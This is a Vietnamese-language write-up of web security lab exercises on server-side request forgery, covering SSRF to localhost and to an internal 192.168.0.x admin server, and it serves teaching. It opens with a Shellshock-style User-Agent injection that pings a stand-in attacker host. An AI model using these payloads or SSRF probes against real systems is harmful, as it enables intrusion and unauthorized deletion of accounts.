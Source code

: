 ```User-agent: () {:;}; ping attacker.com```
## Lab: Basic SSRF against the local server

**END GOALS**: Change the stock URL to access the admin interface and delete the user carlos.

-Lab này có ```backend admin``` xử lý yêu cầu xóa user chạy trên cùng 1 máy với ```frontend web```, nên bạn chỉ cần SSRF với ```localhost```.


## Lab: Basic SSRF against another back-end system

**END GOAL**: use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

- ```Backend admin``` chạy ở 1 server ***riêng biệt*** trong mạng LAN, có IP riêng như ```192.168.0.x``` không phải ```localhost```.

- Kiến trúc:

```text
+------------------+     +------------------------+
|  Frontend Server | --> |  Backend Admin Server  |
|  192.168.0.10     |     |  192.168.0.11:8080     |
```

==>Bạn phải dùng SSRF để nhờ frontend gửi request đến 192.168.0.11:8080

- Phân tích: 

  - Khi gửi SSRF đến IP không có service đang chạy: Server sẽ cố gắng kết nối đến IP đó nhưng thất bại 

-->Sẽ trả về lỗi ```500 Internal Server Error``` 

  - Khi gửi SSRF đến đúng IP Backend có service lắng nghe: Request được gửi thành công đến server đó. Nếu chưa chỉ định đúng ```endpoint```

-->Server sẽ trả về ```404 not found``` - nghĩa là kết nối thành công nhưg có có route /

- Thử chèn payload ssrf: ```http://localhost/```

![alt text](./img/lab1-1.png)

==>Vậy ở web này ```Backend admin``` không chạy trên ```localhost``` nữa mà chạy ở 1 máy khác trong mạng nội bộ.
